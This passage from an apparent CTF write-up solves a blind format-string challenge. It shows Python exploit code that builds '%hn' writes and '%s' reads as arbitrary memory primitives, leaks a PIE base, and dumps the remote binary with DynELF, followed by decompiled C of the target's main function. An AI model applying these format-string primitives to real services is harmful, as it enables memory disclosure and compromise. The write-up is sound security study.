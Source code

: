 ```python
    ptr_base = stack_leak+(40-1)*8
    delta = _cursor2 ^ ptr
    i = 0
    while delta:
        cursor(ptr_base+i)
        payload = "%{}c".format(ptr & 0xffff)
        payload+= "%39$hn"
        f(payload)
        ptr >>= 16; delta >>= 16; i+=2
    _cursor2 = ptr

def arb_read(ptr):
    cursor2(ptr)
    return f("%40$s")

# PIE reference
pie_leak = int(f("%66$p"), 16)

# Do stuff
d = DynELF(arb_read, pie_leak)
pie_base = d.libbase
log.info("pie_base: {:#x}".format(pie_base))

with open("/tmp/dump", "r") as _f:
    prog = len(_f.read())

while True:
    with open("/tmp/dump", "a") as _f:
        log.info("Progress: {:x}".format(prog))
        data = arb_read(pie_base+prog)+'\x00'
        _f.write(data)
        prog += len(data)
```

However, the script was painfully slow and was not able to leak enough of the binary to see the flag even after 2 hours of dumping non-stop. At this point, I was very frustrated as I was just staring at the script move slowly and so I took the progress of the binary and analysed the leaked code to see what was going on.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __int64 v3; // rdx
    __int64 v4; // rdx

    __asm { endbr64 }
    sub_10B0(MEMORY[0x4070], 0LL, envp);
    sub_10B0(MEMORY[0x4060], 0LL, v3);
    sub_10B0(MEMORY[0x4080], 0LL, v4);
    sub_10D0(600LL);
    sub_10A0("Welcome to Anoroc Riga Server\n");
    sub_10A0("  Key-Value Storage Service\n");
    sub_10A0("==============================\n");
    sub_10F0();
    sub_10C0();
    sub_10A0("Function Not Yet Implemented");
    while ( 1 )
    {
        sub_10E0(0x40A0LL);
        if ( (_DWORD)MEMORY[0x40A0] == 'tixe' && !MEMORY[0x40A4] )
            break;
        sub_10C0();
    }
    return 0;
```